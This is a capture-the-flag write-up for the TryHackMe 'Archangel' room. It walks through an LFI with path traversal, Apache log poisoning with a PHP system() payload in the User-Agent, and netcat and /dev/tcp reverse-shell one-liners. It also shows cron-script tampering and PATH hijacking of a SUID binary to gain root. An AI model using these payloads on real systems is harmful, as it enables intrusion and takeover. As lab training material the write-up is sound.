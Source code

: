 # Archangel

**Room Link:** [https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>



I added mafialive.thm to my host file and tried visiting the browser from there

**Kali**

```
subl /etc/hosts
```



<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>







**Kali**

```
curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3ll
ZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhl
cmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwg
JHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYo
IWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJ
aW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9i
b2R5PgoKPC9odG1sPgoKCg==" | base64 -d

```



<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Burpe Request

By changing the user agent I was able to start running commands&#x20;

Before

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log HTTP/1.1
Host: mafialive.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

After

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=whoami HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell

**Kali**

```
nc -lvnp 1337
```

**Command being sent**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f
```

**Burp request**

Only notable thing is to url encode the command being sent

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.125.248+1337+>/tmp/f+ HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>





### Shell - archangel

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
cat /etc/crontab
cat /opt/helloworld.sh
echo '#!/bin/bash' > /opt/helloworld.sh
echo "sh -i >& /dev/tcp/$KALI/1338 0>&1" >> /opt/helloworld.sh
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation

**Victim**

<pre><code><strong>file backup
</strong><strong>strings backup 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

We can see with strings that the program is running a cp command but it isn't using the full pathm we can use this.

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat > cp << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x cp
export PATH=/home/archangel/secret:$PATH
./backup 
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>




























